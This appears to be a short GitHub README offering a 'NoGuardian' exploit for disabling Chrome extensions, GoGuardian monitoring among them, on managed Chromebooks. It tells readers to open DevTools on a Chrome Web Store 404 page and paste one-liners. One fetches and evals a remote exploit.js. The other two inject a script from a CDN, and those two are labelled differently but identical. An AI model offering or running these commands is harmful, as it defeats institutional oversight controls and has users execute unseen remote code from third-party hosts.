 # noguardian
Exploit to Disable Chrome Extentions (to Bypass GoGuardian)

# NoGuardian ChomeBook Bypass

Here are the steps to exploit to ChromeBook Extensions (to Bypass GoGuardian)

UPDATE: JUST GO HERE: https://tylerhalltech.com/noguardian or here: https://tylerhalltech.com/noguardian2/

## 1) PREPARE EXPLOIT
Copy the code here:

## Code #1
```
fetch(`https://tylerhalltech.com/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

## Code #2 (BETTER THAN #1)
```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```

## Code #3 (FIX)
```
(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot@latest/ingot.min.js';document.body.appendChild(a);}())
```

## 2) LOAD 404 PAGE

Go to `https://chrome.google.com/webstore_`

Press Ctrl + Shift + I on the 404 page to open Chrome's Developer Tools.

Go to the CONSOLE tab

Paste the code from step 1 here and press enter

You should now be able to disable any Google Chrome extension (including GoGuardian)
